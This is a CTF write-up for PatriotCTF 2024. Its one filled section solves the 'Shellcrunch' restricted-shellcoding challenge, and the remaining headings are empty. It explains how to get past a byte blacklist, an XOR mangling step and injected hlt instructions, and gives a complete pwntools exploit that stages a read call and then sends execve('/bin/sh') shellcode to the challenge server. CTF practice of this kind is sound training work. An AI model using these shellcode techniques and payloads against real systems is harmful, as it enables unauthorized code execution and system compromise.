 ```yaml
---
title: PatriotCtf 2024 Writeups
category: WRITEUP, CTF, SHELLCODING, HEAP, KERNEL, V8
date: September 18th, 2024
description: Writeup of a few challenges from buckeye ctf
---
```



## Shellcrunch

This is a restricted shellcoding problem with two main steps. The first is that we have
to pass a blacklist of bytes. We cannot have any 0x3b, 0x2f, 0x62, 0x69, 0x6e, 0x73, 0x68,
or 0x0. 

Then our shellcode will be passed through an auto xor key cipher. Where the current byte
will be xored with the next byte.

Then finally, 0xf4f4f4f4 (hlt instruction) will replace our payload once in a while. 

The first challenge would be getting past the auto xor key cipher. We can 
write a quick function to make sure our shellcode is passing through the xor cipher
properly. 

Once that occurs, then we have another problem. Our shellcode that has been replaced with
0xf4 will halt execution and stop our shellcode from continuing to execute. To get 
pass this I used a relative jump instruction (jmp 4 0xeb04) to jump over the hlt instructions.

From there, I can do a few bytes for instructions that I need to execute, and then a jmp 4
to skip over the hlt instructions. My goal when calling this shellcode is to call a read to read
in unrestricted shellcode. 

Generally in any type of restricted shellcoding problem like this, it is the quickest to call read
to read in more shellcode instead of continuing to craft shellcode in the restricted environment.
In these types of problems there are a few things that are almost always guarenteed. 

1. The shellcode buffer will be stored in at least one of our registers when executing the shellcode.
a. This is because in order to jump to the address of the shellcode we need to put it into a register and
then execute a jmp reg instruction.
2. the read syscall will be in the binary. (How else can you read in shellcode in the first place.
3. the state of the registers will be more consistent.

With making a read syscall to read in more shellcode our goal. We only have to do 4 things:

* Set rax = 0
* Set rdi = 0 
* Set rsi to our shellcode buffer
* Set rdx = some big enough number (can be anything)

Filling these requirements can usually be easier than trying to call execve("/bin/sh",0,0,0) because we would have to 
get "/bin/sh" into writeable memory, and set rax = 0x3b. These can be more difficult in a restricted shellcoding environments.
Whereas with the read call, all we need to do is xchg and set registers to 0. 

```python
#! /usr/bin/python
from pwn import *

context.update(
        arch="amd64",
        endian="little",
        #log_level="debug",
        log_level="info",
        os="linux",
        terminal=["alacritty", "-e"]
)

to = 2
ru = lambda p,s: p.recvuntil(s, timeout=to)
rl = lambda p: p.recvline()
sla = lambda p,a,b: p.sendlineafter(a, b, timeout=to)
sl = lambda p,a: p.sendline(a)
up = lambda b: int.from_bytes(b, byteorder="little")

SERVICE = "chal.competitivecyber.club"
PORT = 3004

def start(binary):

    gs = '''
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        set follow-fork-mode parent
    '''

    if args.GDB:
        return gdb.debug(binary, gdbscript=gs)
    elif args.REMOTE:
        return remote(SERVICE,PORT)
    else:
        return process(binary)


def mangle_shellcode(shellcode):
    shellcode = bytearray(shellcode)
    shell_len = len(shellcode)
    index = (shell_len - 2) // 4 * 4  

    # Reverse the mangle operation by XORing backwards
    while index >= 0:
        shellcode[index] ^= shellcode[index + 1]
        index -= 4

    log.info(f"Mangled shellcode {shellcode}")
    blacklist = [b"\x68", b"\x6e", b"\x73", b"\x2f", b"\x69", b"\x62", b"\x3b", b"\x00"] 

    for b in shellcode: 
        if b in blacklist:
            log.info(f"Invalid shellcode for {b}")
            return bytes(0)
 
    return bytes(shellcode)


def exploit(p,e):
    # Relative jmp 4 to jmp over four hlt instructions
    jmp_4 = b"\xeb\x04"
    
    # Some random filler that will be replaced with 0xf4f4f4f4
    filler = b"\xf4\x90\xf4\x90"

    # Call read(0, &buf, 0x200)
    shellcode =  jmp_4 + filler + asm("xchg rdx, rsi") + asm("xor rdi,rdi")
    shellcode += jmp_4 + filler + asm("add rsi, 0x20") + asm("nop") + asm("nop")
    shellcode += jmp_4 + filler + asm("xchg r11, rdx") + asm("syscall")    

    # execve("/bin/sh", 0, 0)
    easy_shellcode = asm("""
        movabs r15, 0x68732f6e69622f 
        push r15
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov eax, 0x3b
        syscall
    """)
         
    mangled_shellcode = mangle_shellcode(shellcode)
     
    log.info(f"Shellcode {shellcode} {len(shellcode)}")
    log.info(f"Mangled shellcode {mangled_shellcode}")

    sl(p,mangled_shellcode)
    #sl(p,shellcode)
    
    pause()

    sl(p, b"\x90"*0x30 + easy_shellcode)


    p.interactive()
    

if __name__=="__main__":
    file = args.BIN

    p = start(file)
    e = context.binary = ELF(file)
    #l = ELF("./libc.so.6")

    exploit(p,e)
```

## Flightscript


## Dirty Fetch




## Baby xss
